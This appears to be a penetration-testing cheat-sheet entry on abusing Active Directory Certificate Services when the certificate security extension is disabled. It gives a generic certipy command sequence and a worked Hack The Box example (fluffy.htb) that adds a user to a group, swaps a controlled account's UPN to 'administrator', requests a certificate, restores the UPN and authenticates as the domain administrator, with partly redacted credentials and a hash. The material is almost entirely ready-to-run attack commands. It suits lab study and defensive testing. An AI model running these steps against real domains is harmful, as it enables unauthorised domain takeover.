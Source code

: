 **Requirements**  
- Certificate Security Extensions is disabled  
- Disabled Extensions contains the OID '1.3.6.1.4.1.311.25'  

**Exploitation**  
 * Exploitation with certipy  
   ```bash
   # Change UPN
   certipy account -u '<owneduser@domain>' -p '<owneduserpassword>' -target '<DC>' -upn '<target upn to add to an owned user>' -user '<another owned user>' update

   # Request Cert
   certipy req -dc-ip '<DC IP>' -u '<other owned user from previous step>' -p or -h '<password or hash>' -target '<DC Hname>' -ca '<CA FQDN>' -template '<vulnerable template>'

   # Restore UPN
   certipy account -u '<owneduser@domain>' -p '<owneduserpassword>' -p '<owneduserpassword>' -target '<DC HName>' -upn '<original UPN>' -user '<other owned user>' update

   # Authenticate
   certipy auth -pfx '<target UPN pfx>' -domain '<domain>'
   
   # This should land you with a ccache that you can use.
   ```
 * Real life Example exploitation from HTB machine.  
   ```bash
   # Add ourself to a group that has generic right over a user. In this example, ca_svc.
   net rpc group addmem "SERVICE ACCOUNTS" "p.agila" -U "fluffy.htb"/"p.agila"%"prom[redacted]" -S "dc01.fluffy.htb"

   # Change UPN
   certipy-ad account -u 'p.agila@fluffy.htb' -p 'prom[redacted]' -target 'dc01.fluffy.htb' -upn 'administrator@fluffy.htb' -user 'ca_svc' update

   # Request cert
   certipy-ad req -dc-ip 'x.x.x.x' -u 'ca_svc@fluffy.htb' -hashes :ca0[redacted]3bb03fc98c8 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

   # Restore UPN
   certipy-ad account -u 'p.agila@fluffy.htb' -p 'prom[redacted]' -target 'dc01.fluffy.htb' -upn 'ca_svc' -user 'ca_svc' update

   # Authenticate
   certipy-ad auth -pfx administrator.pfx -domain fluffy.htb
   ```
